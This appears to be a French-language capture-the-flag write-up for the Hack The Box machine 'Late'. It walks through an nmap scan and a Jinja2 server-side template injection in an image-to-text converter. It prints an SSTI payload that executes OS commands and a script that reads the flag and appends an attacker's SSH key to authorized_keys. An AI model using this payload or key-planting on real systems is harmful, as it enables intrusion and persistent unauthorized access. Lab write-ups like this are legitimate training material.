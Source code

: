 ```yaml
---
title:  "HacktheBox WriteUp : Late"
category: HackTheBox
tag: writeups
---
```


### Résumé

Late est une machine pour débutants basée sur une plateforme Linux.  
Niveau : Facile

### Savoir-faire
- Nmap
    

### Scanner le réseau

`sudo nmap 10.10.11.156 -sS -sV`

- \-sS Analyse du port TCP SYN (par défaut)
- \-sV Tente de déterminer la version du service fonctionnant sur le port

![ScanLate](/assets/images/WriteUps/HackTheBox/lateMachine/nmapLate.png)  
On s'apperçoit qu'il y a le port 80 ouvert, on va donc aller regarder le site .

![lateSite](/assets/images/WriteUps/HackTheBox/lateMachine/lateSite.png)

### Analyse du site

Après quelques recherches, on tombe sur un texte pointant vers un lien étrange et inaccessible.   
![lateBizare](/assets/images/WriteUps/HackTheBox/lateMachine/lateSiteBizarre.png)   
le lien en question : [images.late.htb](http://images.late.htb/)   
Cependant le lien redirige vers nulle part.  
On décide donc de l'ajouter à notre fichier /etc/hosts qui est un peu l'ancêtre du DNS (mais de manière non centralisée).
Ce fichier a pour rôle d'associer une adresse IP à un nom d'hôte, et il est consulté avant qu'une requête DNS soit faite.

On ajoute donc l'entrée comme ceci :   
`IPAddress DomainName [DomainAliases]`  
Ce qui donne pour notre cas :    
`10.10.11.156 http://images.late.htb/ images.late.htb`      
On a finalement accès à la page en question, qui contient un champ pour upload une image, dans le but 
d'en extraire le texte présent dessus.
![convertImage](/assets/images/WriteUps/HackTheBox/lateMachine/convertImage.png)

### Utilisation du convertisseur d'image

Après quelques recherches, on tombe sur ce blog nous indiquant quelques tests à faire dans le cas 
d'un SSTI (server side template injection, ou injection de template côté serveur) : [blog SSTI](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)

Après avoir lu les explications, et en regardant la cheatlist fournie, on voit en prenant une image de 7x7 que 
le résultat de la convertion d'image en texte nous renvoie ***<p>49</p>***   

On est dans le cas d'un serveur Flask/Jinja2.   

Le but est donc de pouvoir executer des commandes en ayant mis du code dans un image (on prend un screenshot du texte de la commande).

Je vous conseille la font [uni-neue](https://www.fontshmonts.com/text-fonts/uni-neue/) pour que les images
soient correctement détectés.

Dans le blog sur l'explication des SSTI, on voit les mots clés "request.application", avec une recherche google avec ces 
mots clés, on tombe sur ce blog : [SSTI with jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)   
La syntaxe pour executer une requête est donc 

`request.application.__globals__.__builtins__.__import__('os').popen('id').read()`
### Exploit 

À partir de là, on peut executer des commandes sur le serveur avec la commade precedente en remplaçant id par la requête. 
On décide de faire en sorte que le server execute un script accessible sur notre machine en faisant un curl sur un serveur
web (qu'on créé en écoute de notre côté), qui sera piper vers la commande shell pour executer ce script.   
Sur notre machine: 

`python3 -m http.server 8000` 

L'image à envoyer : 

![convertImage](/assets/images/WriteUps/HackTheBox/lateMachine/cmdToServer.png) 

On n'a plus qu'à créer un fichier cmd qui executera les commandes que l'on souhaite.
Dans notre cas on va mettre notre clé ssh sur le serveur pour pouvoir se connecter en shh (le port était ouvert).   
Le fichier cmd contient donc : 

`cat /home/svc_acc/user.txt`  
`mdkir /home/svc_acc/.ssh`  
`echo "ssh-rsa AAAA[....]an" >> /home/svc_acc/.ssh/authorized_keys` 

On peut ensuite faire un ssh et afficher le flag qui est présent sur le répertoire courant.




